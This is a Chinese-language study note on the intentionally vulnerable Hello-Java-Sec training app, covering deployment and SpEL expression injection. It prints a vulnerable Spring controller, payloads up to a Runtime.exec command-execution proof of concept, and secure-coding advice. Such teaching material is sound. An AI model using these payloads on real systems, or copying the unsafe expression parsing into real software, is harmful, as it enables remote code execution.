 # Hello-Java-Sec 学习

---

## 免责声明

`本文档仅供学习和研究使用,请勿使用文中的技术源码用于非法用途,任何人造成的任何负面影响,与本人无关.`

---

- 项目地址 : https://github.com/j3ers3/Hello-Java-Sec

---

## 部署

配置数据库连接 application.properties
```
spring.datasource.url=jdbc:mysql://127.0.0.1:3306/test
spring.datasource.username=root
spring.datasource.password=1234567
```

编译并运行
```
git clone https://github.com/j3ers3/Hello-Java-Sec
cd Hello-Java-Sec
mvn clean package -DskipTests
java -jar target/hello-1.0.2.jar
```

访问测试
- http://127.0.0.1:8888

输入账号密码 admin/admin

记得在数据库中导入 db.sql

---

## 代码分析与漏洞利用的学习

### SpEL 表达式注入

**描述**

SpEL（Spring Expression Language）表达式注入, 是一种功能强大的表达式语言、用于在运行时查询和操作对象图，由于未对参数做过滤可造成任意命令执行。

**利用原理**

- [SpEL注入](./SpEL注入.md)

**示例代码**

```java
@GetMapping("/vul")
public String spelVul(String ex) {
    ExpressionParser parser = new SpelExpressionParser();
    String result = parser.parseExpression(ex).getValue().toString();
    System.out.println(result);
    return result;
}
```

**攻击 payload**

```bash
# 算数运算
# http://127.0.0.1:8888/SPEL/vul?ex=100*2

# 对象实例化
# http://127.0.0.1:8888/SPEL/vul?ex=new%20java.util.Date().getTime()

# 执行命令
# T(java.lang.Runtime).getRuntime().exec(%22open%20-a%20Calculator%22)
```

**编码建议**

web view 层通常通过模板技术或者表达式引擎来实现界面与业务数据分离，比如 jsp 中的 EL 表达式。这些引擎通常可执行敏感操作，如果外部不可信数据未经过滤拼接到表达式中进行解析，则可能造成严重漏洞。

应避免外部输入的内容拼接到 EL 表达式或其他表达式引起、模板引擎进行解析。

白名单过滤外部输入，仅允许字符、数字、下划线等。
